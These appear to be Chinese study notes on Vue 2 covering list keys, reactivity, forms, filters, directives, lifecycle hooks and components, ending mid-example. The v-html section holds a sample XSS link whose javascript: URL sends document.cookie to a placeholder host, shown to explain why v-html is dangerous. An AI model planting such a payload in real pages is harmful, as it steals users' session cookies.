### Key的原理

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>

<body>

    <div id="root">
        <button @click.once="add">点击增加一个老刘</button>
        <ul>
            <!--遍历数组-->
            <h2>使用index</h2>
            <li v-for="(p,index) in persons" :key="index">
                {{p.name}}-{{p.age}} <input type="text">
            </li><br /><br />

            <h2>使用id</h2>
            <li v-for="(p,index) in persons" :key="p.id">
                {{p.name}}-{{p.age}} <input type="text">
            </li>

        </ul>

    </div>

</body>

<script>
    new Vue({
        el: '#root',
        data: {
            persons: [
                { id: "001", name: "张三", age: "18" },
                { id: "002", name: "李四", age: "19" },
                { id: "003", name: "王五", age: "20" },
            ]
        },
        methods: {
            add() {
                const p = { id: "004", name: "老刘", age: "40" };
                this.persons.unshift(p)//向数据前面添加数据

            }
        },
    })
</script>

</html>
```


> 面试题:react、vue中的key有什么作用?(key的内部原理)
>
> 1、虚拟DOM中key的作用:
> 		key是虚拟DOM对象的标识，当数据发生变化时，Vue会根据【新数据】生成【新的虚拟DOM】,随后Vue进行【新虚拟DOM】与【旧虚拟DOM】的差异比较，比较规则如下:
> 2.对比规则:
> 	(1).旧虚拟DOM中找到了与新虚拟DOM相同的key:
> 			若虚拟DOM中内容没变,直接使用之前的真实DOM !
> 			若虚拟DOM中内容变了，则生成新的真实DOM，随后替换掉页面中之前的真实DOM.
> 	(2).旧虚拟DOM中未找到与新虚拟DOM相同的key
> 			创建新的真实DOM,随后渲染到到页面。
> 3.用index作为key可能会引发的问题:
> 	1.若对数据进行:逆序添加、逆序删除等破坏顺序操作:
> 		会产生没有必要的真实DOM更新==>界面效果没问题,但效率低。
> 	2.如果结构中还包含输入类的DOM:
> 		会产生错误DOM更新==>界面有问题。
>
> 4.开发中如何选择key?:
> 	**1.最好使用每条数据的唯一标识作为key，比如id、手机号、身份证号、学号等唯一值**
>
> ​	**2.如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示,使用index作为key是没有问题的。**

### 列表过滤

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>

<body>

    <div id="root">
        <input type="text" placeholder="请输入" v-model="keyword">
        <ul>
            <li v-for="(p,index) in filpersons" :key="p.id">
                {{p.name}}-{{p.age}}--{{p.sex}}
            </li>

        </ul>

    </div>

</body>

<script>
    //用watch实现
    // new Vue({
    //     el: '#root',
    //     data: {
    //         keyword:'',
    //         persons: [
    //             {id: "001", name: "马冬梅", age: "18",sex:"女"},
    //             {id: "002", name: "周冬雨", age: "19",sex:"女"},
    //             {id: "003", name: "周杰伦", age: "20",sex:"男"},
    //             {id: "004", name: "温兆伦", age: "21",sex:"男"},
    //         ],
    //         filpersons:[

    //         ]
    //     },
    //     watch:{
    //         keyword:{
    //             immediate:true,
    //             handler(val){
    //                 this.filpersons = this.persons.filter((p)=>{
    //                 return p.name.indexOf(val) != -1

    //             })
    //             }
    //         }
    //     }

    // })

    //用计算属性实现
    new Vue({
        el: '#root',
        data: {
            keyword: '',
            persons: [
                { id: "001", name: "马冬梅", age: "18", sex: "女" },
                { id: "002", name: "周冬雨", age: "19", sex: "女" },
                { id: "003", name: "周杰伦", age: "20", sex: "男" },
                { id: "004", name: "温兆伦", age: "21", sex: "男" },
            ],

        },
        computed: {
            filpersons() {
                //过滤完要放到一个新的存放数据的地方
                return this.filpersons = this.persons.filter((p) => {
                    return p.name.indexOf(this.keyword) != -1
                })
            }
        }


    })
</script>

</html>
```

### 列表排序

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>

<body>

    <div id="root">
        <input type="text" placeholder="请输入" v-model="keyword">
        <button @click="sorttype =2">顺序排序</button>
        <button @click="sorttype =1">逆向排序</button>
        <button @click="sorttype =0">原顺序</button>
        <ul>
            <li v-for="(p,index) in filpersons" :key="p.id">
                {{p.name}}-{{p.age}}--{{p.sex}}
            </li>

        </ul>

    </div>

</body>

<script>


    //用计算属性实现
    new Vue({
        el: '#root',
        data: {
            keyword: '',
            sorttype: 0,
            persons: [
                { id: "001", name: "马冬梅", age: "18", sex: "女" },
                { id: "002", name: "周冬雨", age: "19", sex: "女" },
                { id: "003", name: "周杰伦", age: "20", sex: "男" },
                { id: "004", name: "温兆伦", age: "21", sex: "男" },
            ],

        },
        computed: {
            filpersons() {
                const arr = this.filpersons = this.persons.filter((p) => {
                    return p.name.indexOf(this.keyword) != -1
                })
                if (this.sorttype) {
                    arr.sort((p1, p2) => {
                        return this.sorttype == 1 ? p2.age - p1.age : p1.age - p2.age
                    })
                }
                return arr

            }
        }


    })
</script>

</html>
```

### Vue数据监测

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>

<body>

    <div id="root">
        <button @click= "student.age++">年龄+1岁</button><br>
        <button @click= "addSex">添加性别属性，默认值：男</button><br>
        <button @click = "student.sex= '女'">修改性别</button><br>
        <button @click = "addFirend">在列表首位添加一个朋友</button><br>
        <button @click = "updateFirstFirend">在修改第一个朋友的名字为：张三</button><br>
        <button @click = "addHobby">添加一个爱好</button><br>
        <button @click = "updateHobby">修改第一个爱好为：开车</button><br>

        <h2>姓名：{{student.name}}</h2>
        <h2 v-if= "student.sex">性别：{{student.sex}}</h2>
        <h2> 年龄：{{student.age}}</h2>
        <hr>
        <ul>
            <li v-for="(h,index) in student.hobby" :key="index">
                {{h}}
            </li>
            <hr>
            <li v-for="(f,index) in student.firends" :key="index">
                {{f.name}}---{{f.age}}
            </li>
        </ul>


    </div>

</body>
<script>
    new Vue({
        el: '#root',
        data: {
            name: '维科',
            address: '寿光',
            student: {
                name: 'lz',
                age: 18,
                hobby: [
                    "抽烟",
                    "喝酒",
                    "烫头"
                ],
                firends: [
                    { name: "tom", age: 22 },
                    { name: "jack", age: 23 }
                ]
            },

        },
        methods: {
            addSex() {
                Vue.set(this.student,"sex","男")
                // this.$set(this.student, "sex", "男")
            },
            addFirend(){
                this.student.firends.unshift({"name":'jack123',age:18})
            },
            updateFirstFirend(){
                this.student.firends[0].name = "zhangsan"
            },
            addHobby(){
                this.student.hobby.push("爬山")
            },
            updateHobby(){
                // this.student.hobby.splice(0,1,"开车")
                // Vue.set(this.student.hobby,0,"开车")
                this.$set(this.student.hobby,0,"开车")
            }
        },
    })
</script>

</html>
```

> Vue监视数据的原理：
>
> ​    1.Vue会监视data中所有层次的数据
>
> ​    2.如何监测对象中的数据？
>
> ​      通过setter实现监视，且要在new Vue时就传入要监测的数据
>
> ​      （1）对象中后追加的属性，Vue默认不做响应式处理
>
> ​      （2）**如需给后添加的属性做响应式，请使用如下API:**
>
> ​        	**Vue.set(target,propertyName/index,value)或**
>
> ​        	**vm.$set(target,propertyName/index,value)**
>
> ​			**注：target为修改的目标位置，propertyName/index相当于键，value为值**
>
> ​    3.如何监测数组中的数据？
>
> ​      通过包裹数据过呢更新元素的办法实现，本质就是做了两件事：
>
> ​      （1）调用原生对应的方法对数组进行更新
>
> ​      （2）重新解析模板，进而更新页面
>
> ​    4.在Vue修改数组中的某个元素一定要用如下方法：
>
> ​      1.使用这个API：push()、pop()、shift()、unshift()、splice()、reverse()
>
> ​			push(“xxx”)：在数组最后面添加元素，并返回新的长度。xxx为传入的元素
>
> ​			pop()：把数组最后一个元素删除，并且返回删除元素的值
>
> ​			shift()：把数组第一个元素删除，并且返回删除元素的值
>
> ​			unshift(“xxx”)：在数组最前面添加元素，并返回新的长度。xxx为传入的元素
>
> ​			splice(index,howmany,item1,.....,itemX)：向/从数组中添加/删除项目，然后返回被删除的项目。
>
> ​						index：必须，整数。规定删除、添加项目的位置，可以使用负数从项目的结尾开始
>
> ​						howmany：必须。要删除的项目数量。如果设置为 0，则不会删除项目。
>
> ​						item1,.....,itemX：可选。向数组中添加的新项目
>
> ​			reverse()：用于颠倒数组中元素的顺序。
>
> ​      2.Vue.set()或vm.$set()
>
> ​    特别注意：Vue.set()和vm.$set()不能给vm或vm的根数据对象添加属性！！！

### 收集表单数据

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>

<body>
    <div id="root">
        <form @submit.prevent="demo">
            <label for="username">账号：</label>
            <!--for对应输入框id-->
            <input type="text" id="username" v-model.tirm="username" /><br><br>
            <label for="password">密码：</label>
            <input type="password" id="password" v-model="password" /><br><br>
            <label for="age">年龄：</label>
            <input type="number" id="age" v-model.number="age" /><br><br>

            性别：
            男<input type="radio" name="sex" value="man" v-model="sex" />
            <!--男女两个选项需要写name，说明是同一个-->
            女<input type="radio" name="sex" value="woman" v-model="sex" /><br><br>

            爱好：
            抽烟<input type="checkbox" v-model="hobby" value="chouyan" />
            喝酒<input type="checkbox" v-model="hobby" value="hejiu" />
            烫头<input type="checkbox" v-model="hobby" value="tangtou" /><br><br>

            所属校区：
            <select v-model="city">
                <option id="">请输入校区</option>
                <option id="jining">济宁</option>
                <option id="jinan">济南</option>
                <option id="qingdao">青岛</option>
                <option id="weifang">潍坊</option>
            </select><br><br>

            其他信息：<textarea v-model.lazy="other"></textarea><br><br>

            <input type="checkbox">阅读并接受<a href="http://www.baidu.com">《用户协议》</a><br><br>

            <button>提交</button>
        </form>
    </div>
</body>

<script>
    new Vue({
        el: '#root',
        data: {
            username: '',
            password: '',
            age: '',
            sex: 'man',
            hobby: [],
            city: 'jining',
            other: ''
        },
        methods: {
            demo() {
                console.log(JSON.stringify(this._data))//通过JSON输出数据
            }
        },
    })
</script>

</html>
```

> 收集表单数据：
>
> ​	若：\<input type = "text"/>,则v-model收集的是value值，用户输入的就是value值
>
> ​	若：\<input type = "radio"/>,则v-model收集的是value值，且要给标签配置value值
>
> ​	若：\<input type = "checkbox"/>
>
> ​		1.没有配置input的value属性，那么收集的就是checked（勾选 or 不勾选，是布尔值）
>
> ​		2.配置input的value属性：
>
> ​			（1）v-model的初始值是非数组，那么收集的就是checked（勾选 or 不勾选，是布尔值）
>
> ​			（2）v-model的初始值是数组，那么收集的就是value组成的数组
>
> ​		备注：v-model的三个修饰符
>
> ​			lazy：失去焦点再收集数据
>
> ​			number：输入字符串转为有效的数字
>
> ​			trim：输入首位空格过滤
>

## 过滤器(记得return出去)

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
    <script src="js/dayjs.min.js"></script>
</head>
<body>

    <div id="root">

        <h2>显示格式化后的时间</h2>
        <!--计算属性实现-->
        <h2>现在是：{{fmtputed}}</h2>
        <!--methods实现-->
        <h2>现在是：{{getfmttime()}}</h2>
        <!--过滤器实现-->
        <h2>现在是：{{time | timeFmtMater}}</h2>
        <h2>现在是：{{time | timeFmtMater('YYYY年MM月DD日')}}</h2>
        <h2>现在是：{{time | timeFmtMater('YYYY年MM月DD日') | mySlice()}}</h2>
    </div>

    
</body>
<script>
    //全局过滤器
    Vue.filter('mySlice',function(value){
        return value.slice(0,4)
    })


    new Vue({
        el:'#root',
        data:{
            time:1632029854352,
        },
        computed:{
            fmtputed(){
                return dayjs(this.time).format('YYYY-MM-DD HH:mm:ss')
            }
        },
        methods: {
            getfmttime(){
                return  dayjs(this.time).format('YYYY-MM-DD HH:mm:ss')
            }
        },
        // 局部过滤器
        filters:{
            timeFmtMater(value,str='YYYY-MM-DD HH:mm:ss'){
                return  dayjs(value).format(str)
            },
            // mySlice(value){
            //     return value.slice(0,4)
            // }
        }

    })
</script>
</html>
```

> 过滤器：
>
> ​	定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）
>
> ​	语法：
>
> ​		1.注册过滤器：`Vue.filter(name,callback)`或`new Vue{filters:{}}`
>
> ​		2.使用过滤器：`{{xxx | 过滤器名}}` 或`v-bind:属性 = "xxx | 过滤器名"`
>
> ​	备注：
>
> ​		1.过滤器也可以接受额外参数、多过滤器也可以串联
>
> ​		2.并没有改变原本数据，是产生新的对应的数据

## 内置指令

### v-text

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>
<body>

    <dv id="root"> 
        <div>{{name}}</div>
        <div v-text = "name"></div>
        <div v-text = "str"></div><!--输出<h2>你好</h2>-->
    </dv>
    
</body>
<script>
    new Vue({
        el:'#root',
        data:{
            name:'lz',
            str:'<h2>你好</h2>'
        }
    })
</script>
</html>
```

> 1.作用：向其坐在的节点中渲染文本内容
>
> 2.与插值语法的区别：v-text会替换掉节点中的内容，{{xxx}}则不会

### v-html

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>
<body>

    <dv id="root"> 
        <div>{{name}}</div>
       
        <div v-html = "str"></div>
        <div v-html = "str2"></div>
    </dv>
    
</body>
<script>
    new Vue({
        el:'#root',
        data:{
            name:'lz',
            str:'<h2>你好</h2>',
            //有人搞坏事，会获取浏览器cookie数据
            str2:'<a href=javascript:location.href="http://www.xxx.com?"+document.cookie>好东西</a>'
        }
    })
</script>
</html>

```

> 1.作用：向指定节点中渲染包含html结构的内容
>
> 2.与插值语法的区别：
>
> ​	（1）v-html会替换掉节点中所有的内容，{{xxx}}则不会
>
> ​	（2）v-html可以识别html结构
>
> 3.严重注意：v-html有安全性问题！！！
>
> ​	（1）在网站上动态渲染任意html是非常危险的，容易导致XSS攻击
>
> ​	（2）一定要在可信的内容上使用v-html，永不要用在用户提交的内容上

### v-cloak指令

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <style>
        [v-cloak]{
            display: none;
        }
    </style>
</head>
<body>

    <dv id="root"> 
        <div v-cloak>{{name}}</div>
    </dv>
    
    <script src="js/vue.js"></script>
</body>
<script>
    new Vue({
        el:'#root',
        data:{
            name:'lz',
        }
    })
</script>
</html>

```

> v-cloak指令（没有值）
>
> ​	1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性
>
> ​	2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题

### v-once指令

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>
<body>
    <div id="root">
        <h2 v-once>初始值{{n}}</h2>
        <h2>现在值{{n}}</h2>

        <button @click = "n++">点击n++</button>
    </div>
    
</body>

<script>
    new Vue({
        el:'#root',
        data:{
            n:1
        }
    })
</script>
</html>
```

> v-once指令：
>
> ​	1.v-once所在节点在初始动态渲染后，就视为静态内容了
>
> ​	2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能

### v-pre指令

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>
<body>
    <div id="root">
       <h2 v-pre>Vue真好学</h2>
        <h2>现在值{{n}}</h2>

        <button @click = "n++">点击n++</button>
    </div>
    
</body>

<script>
    new Vue({
        el:'#root',
        data:{
            n:1
        }
    })
</script>
</html>
```

> v-pre指令
>
> ​	1.跳过其所在节点的编译过程
>
> ​	2.可利用它跳过：没有使用指定语法、没有使用插值语法的节点，会加快编译。

## 自定义指令

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>

<body>
    <!--
        需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍
        需求2：定义一个v-fbind指令，和v-bind功能类似，的那可以让其所绑定的input元素默认获取焦点
    -->

    <div id="root">
        <h2>当前的n值是：<span v-text="n"></span></h2>
        <h2>放大10倍后的值是：<span v-big="n"></span></h2>
        <!-- <h2>放大10倍后的值是：<span v-big-number="n"></span></h2> -->
        <button @click="n++">点我n++</button>

        <hr>

        <input type="text" v-fbind:value="n">
    </div>

</body>
<script>
    //全局指令，有函数的形式和对象的形式
    Vue.directive('fbind',(element, binding)=>{
         element.innerText = binding.value * 10
    })
    
    Vue.directive('fbind', {
        //指定与元素成功绑定时（一上来）
        bind(element, binding) {
            console.log(this)//此处的this时window
            element.value = binding.value
        },
        //指令所在元素被插入页面时
        inserted(element, binding) {
            element.focus()
        },
        //指令所在的模板被重新解析时
        update(element, binding) {
            element.value = binding.value
        },
    })

    new Vue({
        el: '#root',
        data: {
            n: 1
        },
        //局部声明自定义指令，有函数的形式和对象的形式
        directives: {
            //big函数何时会被调用？1.指令与元素成功绑定时（一上来）2.指令所在的模板被重新解析时。
            //big(element, binding) {//element是DOM节点标签。binding是绑定对象，对象里面有个value属性是v-xxx=”value“的value
            //    element.innerText = binding.value * 10
            //},
            
            // 'big-number'(element,binding){
            //     element.innerText = binding.value*10
            // },
            
            //局部指令
            // fbind: {
            //     //指定与元素成功绑定时（一上来）
            //     bind(element, binding) {
            //         console.log(this)//此处的this时window
            //         element.value = binding.value
            //     },
            //     //指令所在元素被插入页面时
            //     inserted(element, binding) {
            //         element.focus()
            //     },
            //     //指令所在的模板被重新解析时
            //     update(element, binding) {
            //         element.value = binding.value
            //     },
            // }
        }
    })
</script>

</html>
```

> 自定义指令总结:
>
> ​    一、定义语法:
>
> ​      (1).局部指令:
>
> ​      	new Vue({               							   new Vue({
>
> ​        	directives:{指令名:配置对象}	或       directives{指令名:回调函数}
>
> ​    	  })                    										 })
>
> ​      (2).全局指令:
>
> ​        Vue.directive(指令名,配置对象） 或  Vue.directive(指令名,回调函数)
>
> ​    二、配置对象中常用的3个回调:
>
> ​      (1).bind:指令与元素成功绑定时调用。
>
> ​      (2).inserted:指令所在元素被插入页面时调用。
>
> ​      (3).update:指令所在模板结构被重新解析时调用。
>
> ​    三、备注:
>
> ​      1.指令定义时不加v-，但使用时要加v-;
>
> ​      2.指令名如果是多个单词，要使用kebab-case命名方式，不要用camelcase命名。

## 生命周期

<div style="border:1px solid black;width:510px;margin-right:20px;margin:auto"><strong>vue2.x的生命周期</strong></div>

### 引出生命周期

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>
<body>

    <div id="root">
        <!-- <h2 :style="{opacity:opacity}">欢迎学习Vue</h2> -->
        <h2 :style="{opacity}">欢迎学习Vue</h2><!--同名可以简写-->
    </div>
    
</body>

<script>
    new Vue({
        el:'#root',
        data:{
            opacity:1,
        },
        //Vue完成模板的解析并把初始的DOM元素放入页面后（挂载完毕）调用mounted
        mounted() {
            setInterval(()=>{
                this.opacity -=0.01
                if (this.opacity <= 0) {
                    this.opacity = 1
                }
            },16)
        },
    })
</script>
</html>
```

> 生命周期:
> 	1.又名:生命周期回调函数、生命周期函数、生命周期钩子。
>
> ​	2.是什么:Vue在关键时刻帮我们调用的一些特殊名称的函数。
>
> ​	3.生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的。
>
> ​	4.生命周期函数中的this指向是vm或组件实例对象。

### 生命周期总结


```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Document</title>
        <script src="js/vue.js"></script>
    </head>
    <body>

        <div id="root">
            <h2 :style="{opacity}">欢迎学习Vue</h2>

            <button @click = "opacity = 1">设置透明度为1</button>
            <button @click = "stop">点我停止变换</button>
        </div>
        
    </body>

    <script>
        new Vue({
            el:'#root',
            data:{
                opacity:1,
            },
            methods: {
                stop(){
                    //销毁组件
                    this.$destroy()
                }
            },
            //Vue完成模板的解析并把初始的DOM元素放入页面后（挂载完毕）调用mounted
            mounted() {
                this.timer = setInterval(()=>{
                    this.opacity -=0.01
                    if (this.opacity <= 0) {
                        this.opacity = 1
                    }
                },16)
            },
            beforeDestroy() {
                console.log("vm即将销毁")
                clearInterval(this.timer)
            },
        })
    </script>
    </html>
```

> 常用的生命周期钩子:
> 	1.mounted:发送ajax请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】
>
> ​	2.beforeDestroy:清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】。
> 关于销毁Vue实例:
>
> ​	1.销毁后借助Vue开发者工具看不到任何信息。
>
> ​	2.销毁后自定义事件会失效,但原生DOM事件依然有效。
>
> ​	3.一般不会在beforeDestroy操作数据，因为即便操作数据，也不会再触发更新流程了。

# 第二章：Vue组件化编程

## 什么是模块、组件

> 模块：向外提供特定功能的js程序，一般就是一个js文件


## 非单文件组件

### 基本使用

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>

<body>
    <div id="root">
        <!--步骤三：编写组件标签-->
        <school></school>

        <hr>
        <!--步骤三：编写组件标签-->
        <student></student>
        <hello1></hello1>

    </div>
</body>
<script>

    //步骤一：创建school组件
    // const school = Vue.extend({
    //     //el='#root',//一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个组件。
    //     template: `
    //         <div>
    //             <h2>学校名：{{schoolName}}</h2>
    //             <h2>学校地址：{{address}}</h2>
    //         </div>
    //     `,
    //     data() {
    //         return {
    //             schoolName: '维科',
    //             address: '寿光'
    //         }
    //     },
    // })

    //步骤一：创建school组件,简写形式
    const school = {
        //el='#root',//一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个组件。
        template: `
            <div>
                <h2>学校名：{{schoolName}}</h2>
                <h2>学校地址：{{address}}</h2>
            </div>
        `,
        data() {
            return {
                schoolName: '维科',
                address: '寿光'
            }
        },
    }

    //步骤一：创建student组件
    const student = Vue.extend({
        template: `
            <div>
                <h2>学生名：{{studentName}}</h2>
                <h2>学生年龄：{{age}}</h2>
                <button @click = "al">点我显示学生名</button>
            </div>
        `,
        data() {
            return {
                studentName: 'lz',
                age: 21
            }
        },
        methods: {
            al() {
                alert(this.studentName)
            }
        },
    })

    //步骤一：创建hello组件
    const hello = Vue.extend({
        template: `
        <div>
            <h2>你好啊，{{name}}</h2>
        </div>
        `,
        data() {
            return {
                name: 'tom',
            }
        },
    })

    //全局注册组件
    Vue.component('hello1', hello)//前者是组件标签名，后者创建的组件名

    new Vue({
        el: '#root',
        //步骤二：注册组件（局部注册）
        components: {
            //school:school//前者school是组件标签名，后者创建的组件名
            school,//当前后名字一样，可以简写
            student
        }

    })

</script>

</html>
```

> Vue中使用组件的三大步骤:
> 	1、定义组件(创建组件)
>
> ​	2、注册组件
>
> ​	3、使用组件(写组件标签)
>
> 一、如何定义一个组件?
> 	使用Vue.extend(options)创建，其中options和new Vue(options)时传入的那个options几乎一样，但也有点区别;
>
> ​	区别如下:
> ​		1.el不要写，为什么?——最终所有的组件都要经过一个vm的管理，由vm中的el决定服务哪个容器。
>
> ​		2.data必须写成函数，为什么?——避免组件被复用时，数据存在引用关系。
>
> ​	备注:使用template可以配置组件结构。
>
> 二、如何注册组件?
> 	1.局部注册:靠new Vue的时候传入components选项
>
> ​	2.全局注册:靠Vue.component('组件名',组件)
>
> 三、编写组件标签:
> 	\<school></ school>

### 几个注意点

> 1.关于组件名:
>
> ​	一个单词组成:
>
> ​			一种写法(首字母小写):school
>
> ​			第二种写法(首字母大写):School
>
> 多个单词组成:
>
> ​			第一种写法(kebab-case命名):my-school
>
> ​			第二种写法(CamelCase命名):MySchool（需要Vue脚手架支持)
>
> 备注:
>
> ​	(1).组件名尽可能回避HTML中已有的元素名称，例如:h2、H2都不行。
>
> ​	(2).可以使用name配置项指定组件在开发者工具中呈现的名字。
>
> 2.关于组件标签:
>
> ​		第一种写法:\<school>\</school>第二种写法: \<school/>
>
> ​		备注:不用使用脚手架时，\<school/>会导致后续组件不能渲染。
>
> 3.一个简写方式:
>
> ​		const school = Vue.extend(options）可简写为: const school = options
>
> ```html
> 	//步骤一：创建school组件
>     // const school = Vue.extend({
>     //     template: `
>     //         <div>
>     //             <h2>学校名：{{schoolName}}</h2>
>     //             <h2>学校地址：{{address}}</h2>
>     //         </div>
>     //     `,
>     //     data() {
>     //         return {
>     //             schoolName: '维科',
>     //             address: '寿光'
>     //         }
>     //     },
>     // })
> 
>     //步骤一：创建school组件,简写形式
>     const schoo = {
>         template: `
>             <div>
>                 <h2>学校名：{{schoolName}}</h2>
>                 <h2>学校地址：{{address}}</h2>
>             </div>
>         `,
>         data() {
>             return {
>                 schoolName: '维科',
>                 address: '寿光'
>             }
>         },
>     }
> ```

### 组件的嵌套

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>

<body>

    <div id="root">
        <!-- <app></app> -->
    </div>

</body>

<script>
    //定义student组件
    const student = Vue.extend({
        template: `
        <div>
            <h2>学生姓名：{{name}}</h2>
            <h2>学生年龄：{{age}}</h2>
        </div>
        `,
        data() {
            return {
                name: 'lz',
                age: 21
            }
        },
    })

    //定义school组件
    const school = Vue.extend({
        template: `
        <div>
            <h2>学校名称：{{name}}</h2>
            <h2>学校地址：{{address}}</h2>
            <student></student>
        </div>
        `,
        data() {
            return {
                name: '潍坊科技学院',
                address: '宇宙寿光'
            }
        },
        //注册student组件（局部）
        components: {
            student
        }
    })


    //定义hello组件
    const hello = Vue.extend({
        template: `
            <h2>欢迎你！{{name}}</h2>
            <h2>欢迎你！{{name}}</h2>
        `,
        data() {
            return {
                name: "lz",
            }
        },
    })

    //定义app组件
    const app = Vue.extend({
        template: `
        <div>
            <hello></hello>
            <school></school>
        </div>
        `,
        //注册school,hello组件（局部）
        components: {
            school,
            hello
        }
    })

    new Vue({
        el: '#root',
        template:`
        <div>
            <app></app>
            <app></app>
        </div>
        `,
        //注册app组件（局部）
        components: {
            app
        }
    })
</script>

</html>
```

### VueComponent

> 关于VueComponent:
>
> ​	1.school组件本质是一个名为VueComponent的构造函数，且不是程序员定义的，是Vue.extend生成的
>
> ​	2.我们只需要写<school/>或<school></school>，Vue解析时会帮我们创建school组件的实例对象,
>
> 即vue帮我们执行的:new VueComponent(options)。
>
> ​	3.特别注意:每次调用Vue.extend，返回的都是一个全新的VueComponent!!!!
>
> ​	4.关于this指向:
>
> ​		(1).组件配置中:
>
> ​			data函数、methods中的函数、watch中的函数、computed中的函数它们的this均是【VueComponent实例对象】
>
> ​		(2).new Vue()配置中:
>
> ​			data函数、methods中的函数、watch中的函数、computed中的函数它们的this均是【Vue实例对象】。
>
> ​	5.VueComponent的实例对象，以后简称vc（也可称之为:组件实例对象)。
>
> ​		Vue的实例对象,以后简称vm。

### 一个重要的内置对象(不太懂)


> 1.一个重要的内置关系:**VueComponent.prototype.\_\_proto\__== Vue. prototype**
>
> 2.为什么要有这个关系:让组件实例对象(vc）可以访问到 Vue原型上的属性、方法。

```html
<body>

    <div id="root">
        <school></school>
    </div>

</body>

<script>
    Vue.prototype.x = 99

    const school = Vue.extend({
        template: `
        <div>
            <h2>学校名称：{{name}}</h2>
            <h2>学校地址：{{address}}</h2>
            <button @click = "showX">点我显示x</button>
        </div>
        `,
        data() {
            return {
                name: '维科',
                address: '寿光'
            }
        },
        
        methods: {
            showX(){
                console.log(this.x)
            }
        },

    })


    const vm = new Vue({
        el: '#root',
        components: {
            school
        }
    })

    console.log(Vue.prototype === school.prototype.__proto__)
</script>
```

# 第三章：单文件组件

## 安装vue脚手架

> 注意点：
>
> 1.先下载淘宝镜像:npm config set registry https://registry.npm.taobao.org
>
> 2.使用npm命令先下载[node](https://nodejs.org/en/download/)
>
> 


### 基本使用

```vue
//student组件
<template>
  <div>
    <h2>学生姓名：{{ name }}</h2>
    <h2>学生年龄：{{ age }}</h2>
  </div>
</template>

<script>
export default {
  data() {
    return {
      name: "lz",
      age: 21,
    };
  },
};
</script>
```

```vue
//school组件
<template>
  <div class="demo">
    <h2>学校名称：{{ name }}</h2>
    <h2>学校地址：{{ address }}</h2>
